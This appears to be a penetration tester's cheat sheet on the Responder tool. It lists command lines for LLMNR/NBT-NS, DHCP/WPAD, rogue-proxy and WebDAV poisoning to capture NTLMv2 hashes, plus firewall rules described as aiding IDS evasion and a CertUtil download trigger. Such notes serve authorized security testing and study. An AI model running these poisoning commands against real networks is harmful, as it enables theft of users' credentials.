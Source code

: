 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - weaponization
  - sniffing-and-spoofing
  - client-side-attacks
  - authentication-relay
  - network-protocols
  - smb
---
```

# 02 - Responder

## 2.1 - Basics

### 2.1.1 - LLMNR

NBT-NS and LLMNR Poisoning via capturing NTLMv2-SSP hashes

```
$ sudo responder -I <interface> -rdwv
```

LLMNR Poisoning

```
$ sudo responder -I <interface> --lm -v
```

### 2.1.2 - DHCP

DHCP and WPAD poisoning

When a windows host requires a new IP address dynamically it can perform HTTP WPAD poisoning response while the user uses a web browser that contains auto proxy settings enabled

```
$ sudo responder -I <interface> -Pdwv
```

### 2.1.3 - WPAD via Rouge HTTP Proxy

TODO: Try this with `privoxy`

```
$ sudo responder -I <interface> -u <IP>:<PORT>
```

### 2.1.3 - WebDAV

Block SMB traffic on the attacker's machine to poison NTLMv2-SSP responses via WebDAV/HTTP.

> [!NOTE]
> You don't have to block the ports unless you're evading some IDS to identify you for performing MITM poisoning.

```
$ sudo iptables -A INPUT -p udp --dport 137 -j DROP
sudo iptables -A INPUT -p udp --dport 138 -j DROP
sudo iptables -A INPUT -p tcp --dport 139 -j DROP
sudo iptables -A INPUT -p tcp --dport 445 -j DROP

$ sudo responder -I <interface> -Pdv
```

Windows target.

```
C:\> CertUtil.exe -urlcache -split -f https://google.com file.txt

PS C:\> Invoke-WebRequest -Uri https://google.com -OutFile file.txt
```

### 2.1.4 - Passive

```
$ sudo responder -I <interface> -A
```

---
## References

### Backlinks

- [Responder](https://github.com/lgandx/Responder)

### Laurent Gaffie

- [Laurent Gaffie: Responders DHCP Poisoner](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)

### Hacktricks

- [Hacktricks: Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.html)

### Hacking Articles

- [Hacking Articles: A Detailed Guide on Responder LLMNR Poisoning](https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/)

### n00py

- [n00py: Understanding UNC Paths SMB And WebDAV](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)

- [n00py: The Dangers of Endpoint Discovery in Vipre Endpoint Security](https://www.n00py.io/2020/12/the-dangers-of-endpoint-discovery-in-vipre-endpoint-security/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)